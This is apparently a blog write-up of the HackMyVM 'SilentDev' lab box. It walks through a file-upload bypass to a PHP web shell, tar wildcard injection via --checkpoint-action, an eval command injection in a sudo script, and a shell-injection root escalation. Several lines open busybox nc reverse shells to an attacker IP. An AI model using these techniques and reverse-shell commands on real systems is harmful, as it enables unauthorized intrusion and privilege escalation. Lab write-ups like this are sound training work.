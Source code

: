 ```yaml
---
title: SilentDev
date: 2025-10-05 12:00:00 +0800
categories: [hmv]
tags: [fileupload,wildcard,linux,injection]
media_subpath: /images/hmv_SilentDev/
image: 
    SilentDev.png
---
```


**SilentDev** was a very simple Linux Box , where we got initial foothold by leveraging a file upload vulnerability as `www-data` user , then we performed a lateral movement to `developer` user by exploiting a `wildcard` injection in a `cronjob`, then we move again to `alfonso` user by exploiting a `injection` vulnerability in a custom bash script that can be run by `developer` and land a shell as `alfonso` user , finally we got root by exploiting a `binary` that we can run as `root` user.

## Initial Enumeration
### Nmap Results.

```bash
$ nmap -p- -sC -oN nmap 192.168.1.234
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   256 4a:f7:09:40:45:df:25:cc:a4:f5:85:ac:63:c6:13:3e (ECDSA)
|_  256 58:be:2c:d0:40:af:d5:9c:2a:13:38:82:61:f6:8c:87 (ED25519)
80/tcp open  http
|_http-title: Upload Image
MAC Address: 08:00:27:58:37:72 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```
### Getting Foothold
***
- we find a simple webpage running on `80` , where we can upload a image.
![Poc Pic](80.png)
- upon inspecting the source code , we see this line.
![inspect](inspect.png)
- so only the following extensions are allowed , i tried to to remove these , and upload a `php` file but failed , so `backend` is checking the extension.
- i uploaded a `php` web shell and captured the request , and changed the content type to `image/png` and it got uploaded.

![poc](poc.png)

## Prevesc

### www-data to developer

- i got a shell as `www-data` i roamed the file system, and found a ` project.tgz` file in `/var/backups`, it contained a single non informational html file.
- i then checked `/opt/` and found `project` directory , where it was lying the same `html` file , so i thought it might be doing some backup , so i ran `pspy`.
![pspy](pspy.png)
- so there is a single wildcard in the command , we can do wildcard injection.

```bash
$ cd /opt/project
$ echo "busybox nc 192.168.1.3 4444 -e /bin/bash" > shell.sh
$ touch -- "--checkpoint=1"
$ touch -- "--checkpoint-action=exec=sh shell.sh"
```

- and i waited for a few minutes and i got shell as `developer`.
### developer two alfonso
- when i did `sudo -l` as `developer` i can run `/usr/bin/sysinfo.sh` as `alfonso` user. i analyzed the script.

```bash
#!/bin/bash

echo "Hello $USER, checking system status."

echo "Choose an option:"
echo "1. Disk usage (df)"
echo "2. Running processes (ps)"
echo "3. Exit"

read -p "Enter option (1-3): " opt

case "$opt" in
        1) action="df" ;;
        2) action="ps" ;;
        3) echo "Goodbye!"; exit ;;
        *) action="echo Invalid option" ;;
esac

read -p "Any additional options?: " extra

eval "$action $extra"
```


> you can see in the script we can execute 2 commands through option `df` and `ps` and we can pass the argument to it by the 2nd input the script asks , and it will evaluate it through `eval` , so we have a potential command injection here. we have to choose any two command in the first input and in 2nd input we have to input `; /bin/bash`
> POC:
>
> `echo -e "2\n;busybox nc <IP> 1111 -e /bin/bash" | sudo -u alfonso /usr/bin/sysinfo.sh`
{: .prompt-tip }

```bash
$ developer@silentdev:~$ echo -e "2\n;busybox nc 192.168.1.3 1111 -e /bin/bash" | sudo -u alfonso /usr/bin/sysinfo.sh
Hello alfonso, checking system status.
Choose an option:
1. Disk usage (df)
2. Running processes (ps)
3. Exit
    PID TTY          TIME CMD
   2775 pts/2    00:00:00 sysinfo.sh
   2776 pts/2    00:00:00 ps
   
```


![shell](shell.png)

### Alfonso to root
- got user flag.
```console
bash-5.2$ cat user.txt
flag{REDACTED}
bash-5.2$
```


- i did `sudo -l` as `alfonso`.

```console
Matching Defaults entries for alfonso on silentdev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User alfonso may run the following commands on silentdev:
    (ALL) NOPASSWD: /usr/bin/silentgets
bash-5.2$
```

- so i played with the binary a bit. it just greps the username we give it to from `/etc/passwd`.

```bash
bash-5.2$ sudo  /usr/bin/silentgets
Enter the username: root
root:x:0:0:root:/root:/bin/bash
bash-5.2$ sudo  /usr/bin/silentgets
Enter the username: alfonso
alfonso:x:1000:1000:,,,:/home/alfonso:/bin/bash
bash-5.2$
```

![binary](binary.png)
- so here it is the actual command that is going there.


> 
> There is another injection bug here , the input is straightly thrown in the command that is running we can easily bypass it by adding `; <command> ; `
{: .prompt-tip}

```bash
bash-5.2$ sudo  /usr/bin/silentgets
Enter the username: ; /bin/bash ;
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
root@silentdev:/home/developer# cat /root/root.txt
flag{REDACTED}
root@silentdev:/home/developer#
```




